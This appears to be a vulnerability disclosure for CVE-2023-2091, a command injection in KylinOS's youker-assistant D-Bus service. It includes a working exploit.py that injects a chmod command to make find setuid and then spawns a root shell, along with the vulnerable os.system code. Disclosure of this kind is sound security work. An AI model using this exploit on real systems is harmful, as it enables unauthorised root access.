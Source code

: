 # Kylin OS youker-assistant privilege escalation vulnerability

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
### CVE ID
CVE-2023-2091
## Report
### Describe
Youker-assistant is an integrated tool on KylinOS Desktop to help perform daily system maintenance tasks. There is a command injection vulnerability in this component, which may lead to privilege escalation for ordinary users.
### Hazard level
High
### Affected version
- Desktop：youker-assistant < 3.1.4.13
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
import os
import time
import dbus
import getpass

bus = dbus.SystemBus()


interface = dbus.Interface(bus.get_object('com.kylin.assistant.systemdaemon', 
			'/com/kylin/assistant/systemdaemon'), 
			'com.kylin.assistant.systemdaemon')

interface.adjust_cpufreq_scaling_governer ("123|chmod 4777 /usr/bin/find|")
time.sleep(3)

os.system('find /tmp -exec /bin/sh -p \;')
```

### Vuln details
Vuln function:

adjust_cpufreq_scaling_governer

Vuln Type: Command Injection

vuln code:
```
   else:
                        cmd = 'echo %s > %s' % (value, filepath)
                        os.system(cmd)
```
The value in the command executed by system comes from user input, which can be used for command injection.
